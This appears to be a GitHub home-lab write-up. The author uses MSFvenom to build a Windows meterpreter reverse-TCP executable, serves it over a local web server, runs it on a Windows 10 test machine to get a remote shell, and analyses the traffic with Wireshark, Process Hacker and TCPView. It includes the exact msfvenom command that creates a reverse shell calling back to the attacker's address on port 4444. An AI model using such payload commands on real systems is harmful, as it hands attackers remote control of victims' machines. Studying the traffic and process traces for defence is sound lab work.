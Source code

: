 # MSFvenom

![Pasted image 20240502094200](https://github.com/lm3nitro/Projects/assets/55665256/92706414-50e2-4614-85b6-e2b7560e74d7)

MSFvenom is a versitile tool in the Metaspolit Framwork  used for generated varios types of payloads and shellcode. It allows penetration tested and security researchers to create custom payloads for exploitation, bypassing defenses, and gaining remote access to target systems. 

Key Features:
+ Payload Generation
+ Payload Format
+ Customization

### Scope:
I will installing and configuring MSFveno to create a customer reverse TCP shell payload on the attacking host (Linux OS) that will then be downloaded and executed by the victim host (Windows 10 OS). I will then analyze the traffic using various tools to see how the connection looks like and the payload execution at the packet level. 

### Tools and Technology:
Linux OS, Win 10 OS, Wireshark, Process Hacker, TCPview and MSFvenom

## Getting started with MSFvenon

Once MSFvenon is installed and runnig, using the -h lists the available options

```
msfvenom -h
```

![Pasted image 20240501131915](https://github.com/lm3nitro/Projects/assets/55665256/ac798fe5-2b2b-445f-903c-54aeec52edc1)

Listing the -l will show available payloads:

```
msfvenom -l payloads
```

![Pasted image 20240501132226](https://github.com/lm3nitro/Projects/assets/55665256/15af3e0c-0708-439c-ac06-af170979d19c)

Here we can see the total amount of payloads available at the time of this writing: 1475

```
msfvenom -l payloads | wc -l
```

![Pasted image 20240501132317](https://github.com/lm3nitro/Projects/assets/55665256/dab59089-4138-4765-9085-f053d88371e8)

## Custom payload for Windows:

I will be creating a custom payload for my Windows 10 host for testing and analysis. I be using the 'meterpreter_reverse_tcp'. This is a reverse tcp shell. A reverse tcp shell is used to establish a network connection from a compromised target back to the attacker's machine, which in turn facilitates remote control and command execution over the network. 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.91.134 lport=4444 -4 exe -o lm3nitro_shell.exe
```

![Pasted image 20240501140620](https://github.com/lm3nitro/Projects/assets/55665256/061f31b8-12a7-4832-bfff-aaea596191b5)

Once that was complete, I can also verified my file information:

```
file lm3nitro_shell.exe
```

![Pasted image 20240501133716](https://github.com/lm3nitro/Projects/assets/55665256/94f63484-e1c7-4360-88af-2d58b2495fac)

I then used the exploit/multi/handler which provides a listening service to interact with the payload

![Pasted image 20240501133901](https://github.com/lm3nitro/Projects/assets/55665256/a912bfbf-372b-40c0-8dff-119db6fc56d5)

I configured the exploit/multi/handler to use with the custom payload. 

![Pasted image 20240501134438](https://github.com/lm3nitro/Projects/assets/55665256/ca2462d0-a320-4df5-8de3-ea1b3791b3a2)

I now needed a web server to serve the payload. As seen below, I chose it to be locally (192.168.91.134) on port 8000:

![Pasted image 20240501135301](https://github.com/lm3nitro/Projects/assets/55665256/171f630b-c618-447b-9d94-2096cee9be09)

## Downloading the payload:

Once everything was in place, I went to the Windows host, navigated to 192.168.91.134:8000 as specified above and downloaded lm3nitro_shell.exe I had previosuly created. 

![Pasted image 20240501135710](https://github.com/lm3nitro/Projects/assets/55665256/303251b2-3d73-4aff-823a-84f7bda6f9b9)

Using the following command on the attacking host I was able to see that the Windos host had indeed connected in real time:

```
python3 -m http.server
```

![Pasted image 20240501140151](https://github.com/lm3nitro/Projects/assets/55665256/60325139-29da-4ecd-935f-1b620351cd19)

I also ensured that I had Wireshark running and capturing the traffic on the network. Here we can see the traffic from the download:

![Pasted image 20240501135931](https://github.com/lm3nitro/Projects/assets/55665256/c444cd3f-6354-4126-9a99-857617248a4c)

After having downlaoded the executable, I then executed it:

![Pasted image 20240501140042](https://github.com/lm3nitro/Projects/assets/55665256/a6a5713d-2966-45d3-a7d6-d5a0bfdc43bb)

On the attacking host (msfvenom) I could see that it had been executed and details on the host regarding the user, OS version/build, etc. Also, using the shell command allowed me to successfully remotely connect to the target host over the network:

![Pasted image 20240501144904](https://github.com/lm3nitro/Projects/assets/55665256/afbfd0d0-7bef-4d2a-a5ce-62afd0217761)

## Traffic analysis of the payload:

Going back to Wireshark, I can see when the payload was executed. I was able to see the 200 ok when the target host navigated to the IP and port:

![Pasted image 20240501141911](https://github.com/lm3nitro/Projects/assets/55665256/810d5f2f-9b7f-4116-8d73-a41915740313)

I also used Process Hacker. Process Hacker is a free tool for Windows that helps manage and monitor what is happeneing. Windows by default comes with Task Manager, however, this is a more enhanced version of that. It provides more detailed information about running programs, CPU and memory. 

Taking a look at the lm3nitro_shell.exe that is running, I was also able to see the location, command line, time that it has running, and the Parent:

![Pasted image 20240501143036](https://github.com/lm3nitro/Projects/assets/55665256/c3d3bf25-9cf7-448d-8635-a7812a97ba06)

I also used TCPView (utility within Sysinternals) which lists all active network connections, showing the local and remote addresses, ports, protocols, and status. Here I could see that the connection was establish to the attacker IP on port 4444:

![Pasted image 20240501143308](https://github.com/lm3nitro/Projects/assets/55665256/af6dba33-5efe-45a4-9c29-af57d07e5f32)


### Summary:

I was able to install and configure MSFvenom and use it to create a rever tcp shell payload which was then downloaded by the victim (Windows 10 PC) to create a remote connection to it. While this was being downloaded and executed by the victim I had Wireshark running in the background to capture the traffic and have a look at how this malicious traffic looks at the packet level.  

Having done this allowed me to get a better understanding on attackers and a view into the malicious payloads that are readily available on tools such as MSFvenom. I was able to see how these payloads can be used to exploit vulnerable targets. I was able to further explore attack vectors and defense evasion techniques all in a safe and controlled environment. 

Overall, MSFvenom is a great tool becuase it really simplifies the creation of custom payloads for penetration testing and security assessments. I was ablen to generate malicious code tailored to my specific target. MSFvenom allows security professionals and ethical hackers to simulate real-world attacks and scenarions. One thing that I like is that it can be integrated with tools sucks as Metasploit to make it even more powerful. 
